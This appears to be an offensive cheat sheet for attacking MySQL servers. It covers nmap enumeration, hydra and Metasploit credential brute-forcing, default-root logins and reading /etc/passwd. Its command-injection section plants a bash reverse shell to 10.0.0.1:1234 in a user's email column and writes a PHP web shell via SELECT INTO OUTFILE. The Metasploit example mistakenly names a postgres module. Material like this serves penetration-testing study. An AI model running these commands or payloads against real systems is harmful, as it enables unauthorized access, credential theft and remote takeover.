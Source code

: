 # Commands
### Enumeration
```bash
nmap --script mysql-info -p 3306 <target-ip>
nmap --script mysql-enum -p 3306 <target-ip>
nmap --script mysql-brute -p 3306 <target-ip>
nmap --script mysql-databases -p 3306 <target-ip>
nmap --script mysql-users -p 3306 <target-ip>
nmap --script mysql-* -p 3306 <target-ip>
```
### Brute Force Credentials
```bash
hydra -l username -P passwords.txt <target-ip> mysql
hydra -L usernames.txt -p password <target-ip> mysql

# Metasploit
msfconsole
msf> use auxiliary/scanner/postgres/postgres_login
msf> set rhosts <target-ip>
msf> run
```

## Config File
```bash
cat /etc/mysql/my.cnf
cat /etc/mysql/mysql.conf.d/mysqld.cnf
```

### Connect

#### Local
```bash
# No password
mysql -u username

# With Password
mysql -u username -p

# Specity database name
mysql -u username -p database_name

# Execute commands
mysql -u username -p database_name -e "show databases;"
echo '<password>' | mysql -u username -p database_name -e "show databases;"

# Execute commands via a file
echo 'show tables;' > example.sql
mysql -u username --password='password' database_name -v < example.sql

# Read arbitrary files
mysql -u username --password='password' database_name -v < /etc/passwd

```

#### Remote
```bash
mysql -u username -p -h <target-ip> -P 3306

# Without password (remove -p)
mysql -u username -h <target-ip> -P 3306

# Specify database (-D)
mysql -u username -p -h <target-ip> -D database_name

# Default credential (username: root, no password)
mysql -u root -h <target-ip> -P 3306
```
### Execute from File
After connecting MySQL, you can execute SQL commands from a .sql file.
Note that we need to change the current directory to the directory in which the .sql file is located.

```bash
mysql> source example.sql
```

### Basic Commands

```bash
# List mysql users
mysql> select user from mysql.user;
# List privileges of each user
mysql> select user,select_priv,insert_priv,update_priv,delete_priv,create_priv from mysql.user;

# Display databases
mysql> show databases;

# Switch to the database
mysql> use db_name;

# Display tables in the current database
mysql> show tables;
# Display tables and table type
mysql> show full tables;
# Display tables in the database
mysql> show tables from <database>;
# Display tables which names start with 'user'
mysql> show tables like 'user%';
# Display tables which names start with 'user' in the database
mysql> show tables from <database> like 'user%';
```

### Command Injection
We can inject the OS command to column values e.g. email address.
Depending on the situation, we may be able to execute arbitrary command.
```bash
# Update existing user email to execute reverse shell
mysql> update exampledb.users SET email='admin@shell|| bash -c "bash -i >& /dev/tcp/10.0.0.1/1234 0>&1" &' where name like 'admin%';

# rev shell
`SELECT "<?php echo shell_exec($_GET['cmd']); ?>" INTO OUTFILE '/xampp/htdocs/rev.php';`

```
 

```
### System Commands
We can run the system command in MySQL shell as below. Depending on the situation, we may be able to escalate privileges.
```bash
mysql> system whoami
mysql> system bash
```
